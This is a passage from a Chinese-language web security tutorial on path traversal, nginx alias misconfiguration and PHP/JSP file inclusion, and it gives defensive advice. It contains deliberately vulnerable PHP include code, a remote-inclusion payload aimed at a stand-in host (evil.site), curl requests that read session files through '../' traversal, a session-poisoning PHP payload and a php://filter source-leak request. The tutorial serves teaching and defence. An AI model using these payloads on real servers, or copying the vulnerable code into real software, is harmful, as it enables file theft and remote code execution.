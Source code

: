 有些开发者在防御路径穿越攻击时，只是简单判断用户传入的文件名或路径中是否存在".."，但是在应用程序没有做目录拼接的场景中，如果用户传入的文件名是以"/"开头的，将直接穿越到根目录，因此仍然存在"任意文件读取"漏洞。
在nginx中如果配置不正确，也存在任意路径穿越漏洞。如，在如下配置中：
```
location /i {
    alias /data/w3/imges/;
}
```
当用户访问/i../app/config.py时，实际上是读取的是/data/w3/images/../app/config.py，即/data/w3/app/config.py。原因是nginx在匹配到/i路径后，将后面的内容拼接到alias，但此时传入的是/i../，nginx并未意识到这是在跨目录，因而不会进行跨目录的相关处理。
正确的配置是，目录名以"/"结束：
```
location /i/{
    alias /data/w3/images/;
}
```
路径穿越的原理比较简单，可以采取如下防御方案：
在应用中尽量避免让用户直接提交文件名。更安全的做法是，维护一个ID与文件的映射关系，用户只需要提交索引ID
如果一定要用户提交文件名，则应该校验文件名的合法性，过滤目录分隔符"/"和"\"，更安全的做法是，只允许使用特定文件名或者特定的字符。
## 文件包含(File Inclusion)
文件包含漏洞主要出现在PHP和JSP应用中，如果应用在运行过程中会动态加载其他脚本文件，并且加载的文件路径由外部输入变量控制，就有可能产生文件包含漏洞。文件包含分为：本地文件包含(Local File Inclusion)和远程文件包含(Remote File Inclusion).
文件包含漏洞很多时候也是路径穿越漏洞，include函数其加载的文件就是由外部输入变量控制的，但是文件包含漏洞特指文件被web应用载入并执行。比如，PHP中用include()和require()函数载入文件并执行。另外JSP也支持类include操作:
`<jsp:include page="<%= (String)request.getParameter("ParamName")%>">`
此漏洞就是因此而得名的。
在允许文件上传的场景中，攻击者可以先上传恶意代码，再通过本地文件包含漏洞来执行代码。
远程文件包含是指应用可以通过一个URL加载并执行远程代码，比如PHP中include()就支持指定一个URL作为参数。以下代码就存在远程包含漏洞:
```
<?php
$incfile = $_REQUEST["filename"];
include($incfile.".php");
?>
```
攻击者提交如下参数，就能让服务端加载并执行远程恶意代码:
`filename=http://evil.site/fi`
利用远程文件包含漏洞，攻击者无须上传恶意文件至目标服务器，只需要将其放在远程服务器上即可。
除了执行恶意代码，攻击者还可以通过本地文件包含漏洞读取或执行其他文件，进而获取服务器上的敏感数据，或者让应用执行错误的逻辑。
如果PHP应用中存在文件包含漏洞，攻击者可以读取Session中的数据。在默认配置下，PHP将Session存储在文件系统中，默认路径为/var/lib/sessions，用户通过文件包含就能读取属于自己的会话的内容，如果其中包含了不应该让用户知道的信息，将会造成信息泄漏。如，在图形验证码场景中，服务端在生成图像后，通常会将验证码的明文存储在Session中用于后续校验，攻击者通过文件包含漏洞读取明文验证码，就能绕过人机校验，实现程序自动化操作：
```
<?php
session_start();
$_SESSION['captcha'] = '9527';    //用于一个固定验证码作为演示
if(isset($_GET['filename']))
    include($_GET['filename']);
?>
```
攻击者提交的参数如下(后面的随机字符串是当前的SessionID)：
```
curl 'http://example.com/lfi.php?filename=../../../../../../var/lib/php/sessions/sess_621t0j12g57ium0kim1otv8a10'
captcha|s:4:"9527";
``` 
如果用户能够控制Session中的内容，比如web应用会将当前的用户名存储在Session中，并且用户名中允许存在特殊字符，那么攻击者设置如下的用户名，就可以通过文件包含漏洞远程执行代码：
`<?php phpinfo();?>`
除了Session外，用户可控的其他内容可以用于实现文件包含，如日志文件、临时文件、上传的文件等。
PHP还允许使用php://协议来访问各种I/O流，其中php://filter可以将过滤器应用到文件流中，对文件内容进行特定的编码。直接包含的代码文件会执行代码，但是通过php://filter过滤器可将代码编码曾其他格式，直接输出在响应中，从而获取源代码内容。例如：
```
curl 'http://example.com/lfi.php?filename=php:filter/convert.base64-encode/resource=lfi.php'
PD9waHAK...base646-encode
```
php://input流用于获取请求的Body内容，在读取文件时如果文件名可控，我们可以通过POST请求控制应用读取的内容。